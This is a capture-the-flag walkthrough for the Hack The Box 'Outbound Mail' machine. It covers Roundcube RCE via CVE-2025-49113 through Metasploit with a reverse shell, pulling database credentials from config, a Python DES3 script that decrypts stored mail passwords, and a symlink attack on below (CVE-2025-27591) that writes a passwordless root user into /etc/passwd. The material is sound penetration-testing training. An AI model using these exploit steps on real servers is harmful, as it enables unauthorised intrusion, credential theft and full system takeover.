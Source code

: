 This markdown file provides a complete exploitation walkthrough for the "Outbound Mail" machine on Hack The Box (HTB). It covers initial VPN setup, reconnaissance, exploiting Roundcube Webmail via CVE-2025-49113 for remote code execution (RCE), privilege escalation to user via database credential extraction, and root escalation using CVE-2025-27591 (Below Symlink Attack).

---

## 1. Preparation & Recon

### 1.1 Connect to VPN
```bash
sudo openvpn --config /path/to/htb.ovpn
```

### 1.2 /etc/hosts Configuration
Add the host (replace IP if your instance is different):
```bash
echo "10.10.11.XXX mail.outbound.htb" | sudo tee -a /etc/hosts
```

---

## 2. Initial Enumeration

### 2.1 Nmap Scan
```bash
nmap -sC -sV -oN nmap.txt mail.outbound.htb
```
Open ports:
- 22 (SSH)
- 80 (HTTP)

---

## 3. Foothold: Webmail Access & RCE via CVE-2025-49113

### 3.1 Login to Roundcube Webmail
Open browser:
```
http://mail.outbound.htb/
```
Credentials:
- Username: `tyler`
- Password: `LhKL1o9Nm3X2`

### 3.2 Discover Roundcube Version
On the dashboard, note: **Roundcube v1.6.10**

### 3.3 CVE-2025-49113 — RCE

#### Option A: Metasploit Exploit
Start Metasploit:
```bash
msfconsole
```
Search & use exploit:
```
search roundcube
use exploit/linux/http/roundcube_cve_2025_49113
set LHOST <your_vpn_ip>
set RHOSTS mail.outbound.htb
set USERNAME tyler
set PASSWORD LhKL1o9Nm3X2
exploit
```
Once you have a shell, stabilize it:
```bash
script /dev/null -c bash
```
Outcome: **Shell as www-data**

---

## 4. Privilege Escalation to User

### 4.1 Extract MySQL Credentials from Config File
```bash
cat /var/www/html/roundcube/config/config.inc.php
```
Find:
- MySQL user: `roundcube`
- Password: `RCDBPass2025`
- DES3 decryption key: `rcmail-!24ByteDESkey*Str`

### 4.2 Access MySQL as www-data
```bash
mysql -u roundcube -pRCDBPass2025
```

### 4.3 Database Exploration
```sql
SHOW DATABASES;
USE roundcube;
SHOW TABLES;
SELECT * FROM session;
```
Find encrypted password for user `jacob`.

### 4.4 Decrypt Roundcube Password
Use Python with **pycryptodome**:
```python
from base64 import b64decode
from Crypto.Cipher import DES3

encrypted_password = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
des_key = b'rcmail-!24ByteDESkey*Str'

data = b64decode(encrypted_password)
iv = data[:8]
ciphertext = data[8:]
cipher = DES3.new(des_key, DES3.MODE_CBC, iv)
decrypted = cipher.decrypt(ciphertext)
cleaned = decrypted.rstrip(b"\x00").rstrip(b"\x08").decode('utf-8', errors='ignore')
print("[+] Pass", cleaned)
```
Result: Jacob's password (plain text).

### 4.5 SSH as jacob
```bash
ssh jacob@mail.outbound.htb
```
Once logged in:
```bash
cat ~/user.txt
```

---

## 5. Root Privilege Escalation (CVE-2025-27591 — Below Symlink Attack)

### 5.1 Sudo Rights Check (as jacob)
```bash
sudo -l
```
Allowed to run `/usr/bin/below` as root.

### 5.2 Check below Version for Vulnerability
```bash
sudo /usr/bin/below live
```
Version: `0.8.0` (vulnerable)

### 5.3 Exploit Symlink Vulnerability
```bash
echo 'spy::0:0:spy:/root:/bin/bash' > /tmp/spyuser
rm -f /var/log/below/error_root.log
ln -s /etc/passwd /var/log/below/error_root.log
sudo /usr/bin/below snapshot --begin now
cp /tmp/spyuser /var/log/below/error_root.log
su spy
```

Now, you are **root**.

### 5.4 Capture the Root Flag
```bash
cat /root/root.txt
```
